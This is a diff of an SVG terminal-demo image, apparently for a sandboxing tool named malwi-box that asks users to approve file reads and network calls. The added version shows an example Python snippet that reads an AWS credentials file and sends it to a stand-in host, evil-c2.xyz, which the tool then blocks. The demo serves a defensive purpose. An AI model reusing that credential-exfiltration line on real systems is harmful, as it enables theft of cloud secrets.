

- <svg xmlns="http://www.w3.org/2000/svg" width="100%" height="100%" viewBox="0 0 2800 1400" version="1.1" xml:space="preserve" style="fill-rule:evenodd;clip-rule:evenodd;stroke-linejoin:round;stroke-miterlimit:2;">
-   <g transform="matrix(4.57667,0,0,4.8304,75.2162,-14.9852)">
-     <path d="M525.906,59.769L525.906,236.267C525.906,240.3 522.45,243.575 518.193,243.575L60.736,243.575C56.479,243.575 53.023,240.3 53.023,236.267L53.023,59.769C53.023,55.735 56.479,52.461 60.736,52.461L518.193,52.461C522.45,52.461 525.906,55.735 525.906,59.769Z" />
+ <svg xmlns="http://www.w3.org/2000/svg" width="100%" height="100%" viewBox="0 0 3000 1500" version="1.1" xml:space="preserve" style="fill-rule:evenodd;clip-rule:evenodd;stroke-linejoin:round;stroke-miterlimit:2;">
+   <g transform="matrix(5.58042,0,0,6.60118,-115.333,-227.092)">
+     <path d="M525.906,59.769L525.906,236.267C525.906,240.3 522.032,243.575 517.261,243.575L61.668,243.575C56.897,243.575 53.023,240.3 53.023,236.267L53.023,59.769C53.023,55.735 56.897,52.461 61.668,52.461L517.261,52.461C522.032,52.461 525.906,55.735 525.906,59.769Z" />
  </g>
-   <g transform="matrix(4,0,0,4,62.5498,65.2639)">
-     <text x="97.375px" y="85.106px" style="font-family:'Menlo-Regular', 'Menlo', monospace;font-size:15px;fill:white;">$ malwi-box run --review package.py</text>
-     <text x="97.375px" y="127.106px" style="font-family:'Menlo-Regular', 'Menlo', monospace;font-size:15px;fill:rgb(255,84,43);">[malwi-box] Open (read): /home/user/.aws/credentials</text>
-     <text x="97.375px" y="148.106px" style="font-family:'Menlo-Regular', 'Menlo', monospace;font-size:15px;fill:white;">Approve? [Y/n/i]: y</text>
-     <text x="97.375px" y="190.106px" style="font-family:'Menlo-Regular', 'Menlo', monospace;font-size:15px;fill:rgb(255,84,43);">[malwi-box] DNS lookup: evil-c2.xyz:443</text>
-     <text x="97.375px" y="211.106px" style="font-family:'Menlo-Regular', 'Menlo', monospace;font-size:15px;fill:white;">Approve? [Y/n/i]: n</text>
-     <g transform="matrix(15,0,0,15,151.56,253.106)">
+   <g transform="matrix(4,0,0,4,-99.9866,-85.1654)">
+     <text x="97.375px" y="85.106px" style="font-family:'Menlo-Regular', 'Menlo', monospace;font-size:15px;fill:white;">$ malwi-box eval --review</text>
+     <text x="332.175px" y="85.106px" style="font-family:'Menlo-Regular', 'Menlo', monospace;font-size:15px;fill:rgb(170,172,255);">"</text>
+     <text x="97.375px" y="106.106px" style="font-family:'Menlo-Regular', 'Menlo', monospace;font-size:15px;fill:rgb(170,172,255);">import urllib.request</text>
+     <text x="97.375px" y="127.106px" style="font-family:'Menlo-Regular', 'Menlo', monospace;font-size:15px;fill:rgb(170,172,255);">creds = open('/home/user/.aws/credentials').read()</text>
+     <g transform="matrix(15,0,0,15,512.79,148.106)">
        </g>
-     <text x="97.375px" y="253.106px" style="font-family:'Menlo-Regular', 'Menlo', monospace;font-size:15px;fill:rgb(236,219,0);">Denied</text>
+     <g transform="matrix(15,0,0,15,517.306,148.106)">
+         </g>
+     <text x="97.375px" y="148.106px" style="font-family:'Menlo-Regular', 'Menlo', monospace;font-size:15px;fill:rgb(170,172,255);">urllib.request.urlopen('https://evil-c2.xyz/exﬁl?data=' + creds)</text>
+     <text x="97.375px" y="169.106px" style="font-family:'Menlo-Regular', 'Menlo', monospace;font-size:15px;fill:rgb(170,172,255);">"</text>
+     <g transform="matrix(15,0,0,15,250.898,211.106)">
+         </g>
+     <g transform="matrix(15,0,0,15,255.413,211.106)">
+         </g>
+     <text x="97.375px" y="211.106px" style="font-family:'Menlo-Regular', 'Menlo', monospace;font-size:15px;fill:rgb(254,252,0);">[malwi-box] Read ﬁle: /home/user/.aws/credentials</text>
+     <text x="97.375px" y="232.106px" style="font-family:'Menlo-Regular', 'Menlo', monospace;font-size:15px;fill:white;">Approve? [Y/n/i]: y</text>
+     <text x="97.375px" y="274.106px" style="font-family:'Menlo-Regular', 'Menlo', monospace;font-size:15px;fill:rgb(255,65,24);">[malwi-box] DNS lookup: evil-c2.xyz:443</text>
+     <text x="97.375px" y="295.106px" style="font-family:'Menlo-Regular', 'Menlo', monospace;font-size:15px;fill:white;">Approve? [Y/n/i]: n</text>
+     <g transform="matrix(15,0,0,15,151.56,337.106)">
+         </g>
+     <text x="97.375px" y="337.106px" style="font-family:'Menlo-Regular', 'Menlo', monospace;font-size:15px;fill:rgb(254,252,0);">Denied</text>
  </g>
</svg>
